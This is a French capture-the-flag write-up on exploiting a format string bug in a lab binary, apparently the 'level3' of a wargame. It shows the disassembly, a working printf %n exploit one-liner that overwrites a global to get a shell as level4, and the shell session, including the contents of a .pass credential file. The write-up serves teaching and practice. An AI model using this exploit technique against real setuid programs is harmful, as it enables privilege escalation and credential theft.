## Démarches
- objdump -d level3
    ```
    0804851a <main>:
    804851a:	55                   	push   %ebp
    804851b:	89 e5                	mov    %esp,%ebp
    804851d:	83 e4 f0             	and    $0xfffffff0,%esp
    8048520:	e8 7f ff ff ff       	call   80484a4 <v>
    8048525:	c9                   	leave
    8048526:	c3                   	ret

    
    080484a4 <v>:
    80484a4:	55                   	push   %ebp
    80484a5:	89 e5                	mov    %esp,%ebp
    80484a7:	81 ec 18 02 00 00    	sub    $0x218,%esp
    80484ad:	a1 60 98 04 08       	mov    0x8049860,%eax
    80484b2:	89 44 24 08          	mov    %eax,0x8(%esp)
    80484b6:	c7 44 24 04 00 02 00 	movl   $0x200,0x4(%esp)
    80484bd:	00
    80484be:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    80484c4:	89 04 24             	mov    %eax,(%esp)
    80484c7:	e8 d4 fe ff ff       	call   80483a0 <fgets@plt>
    80484cc:	8d 85 f8 fd ff ff    	lea    -0x208(%ebp),%eax
    80484d2:	89 04 24             	mov    %eax,(%esp)
    80484d5:	e8 b6 fe ff ff       	call   8048390 <printf@plt>
    80484da:	a1 8c 98 04 08       	mov    0x804988c,%eax
    80484df:	83 f8 40             	cmp    $0x40,%eax
    80484e2:	75 34                	jne    8048518 <v+0x74>
    80484e4:	a1 80 98 04 08       	mov    0x8049880,%eax
    80484e9:	89 c2                	mov    %eax,%edx
    80484eb:	b8 00 86 04 08       	mov    $0x8048600,%eax
    80484f0:	89 54 24 0c          	mov    %edx,0xc(%esp)
    80484f4:	c7 44 24 08 0c 00 00 	movl   $0xc,0x8(%esp)
    80484fb:	00
    80484fc:	c7 44 24 04 01 00 00 	movl   $0x1,0x4(%esp)
    8048503:	00
    8048504:	89 04 24             	mov    %eax,(%esp)
    8048507:	e8 a4 fe ff ff       	call   80483b0 <fwrite@plt>
    804850c:	c7 04 24 0d 86 04 08 	movl   $0x804860d,(%esp)
    8048513:	e8 a8 fe ff ff       	call   80483c0 <system@plt>
    8048518:	c9                   	leave
    8048519:	c3                   	ret    
    ```
  La valeur contenue à l'adresse `0x804988c` doit être `0x40`, soit 64, soit `@` en ascii

  
- Les exploits par overflow de buffer ne sont pas possibles (utilisation de *fgets* plutôt que *gets*)
- Une autre vulnérabilité commune des programmes ELF est la [*Format String Attack*](https://owasp.org/www-community/attacks/Format_string_attack) ou [*Uncontrolled Format String*](https://en.wikipedia.org/wiki/Uncontrolled_format_string)

- Avec `./level3` et `AAA0_%08x.%08x.%08x.%08x`, on constate que notre chaine est réécrite à partir du 4ème octet :
  > AAA0_00000200.b7fd1ac0.b7ff37d0.30414141
- Pour écraser `0x804988c` (`\x8c\x98\x04\x08`), on peut utiliser l'option `%n` *(qui écrit le nombre de caractères précédents)* de printf (avec `$4` pour cibler la 4 ème adresse de la stack) :
    `(python -c 'print("\x8c\x98\x04\x08"+60*"A"+"%4$n")' ; cat -) | ./level3`
    ```
    �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Wait what?!
    whoami
    level4
    pwd
    /home/user/level3
    cd ../level4
    ls -la
    total 17
    dr-xr-x---+ 1 level4 level4   80 Mar  6  2016 .
    dr-x--x--x  1 root   root    340 Sep 23  2015 ..
    -rw-r--r--  1 level4 level4  220 Apr  3  2012 .bash_logout
    -rw-r--r--  1 level4 level4 3530 Sep 23  2015 .bashrc
    -rw-r--r--+ 1 level4 level4   65 Sep 23  2015 .pass
    -rw-r--r--  1 level4 level4  675 Apr  3  2012 .profile
    -rwsr-s---+ 1 level5 users  5252 Mar  6  2016 level4
    cat .pass
    b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
    ```

<br>
----
## Ressources

- [The 101 of ELF files on Linux: Understanding and Analysis](https://linux-audit.com/elf-binaries-on-linux-understanding-and-analysis/)
- [Format String Vulnerability](https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/)
- [Exploiting Format String Vulnerabilities - PDF](https://crypto.stanford.edu/cs155old/cs155-spring08/papers/formatstring-1.2.pdf)
- [Introduction to format string exploits](https://codearcana.com/posts/2013/05/02/introduction-to-format-string-exploits.html)
- [CTF Field Guide - Exploiting Binaries 1](https://trailofbits.github.io/ctf/exploits/binary1.html)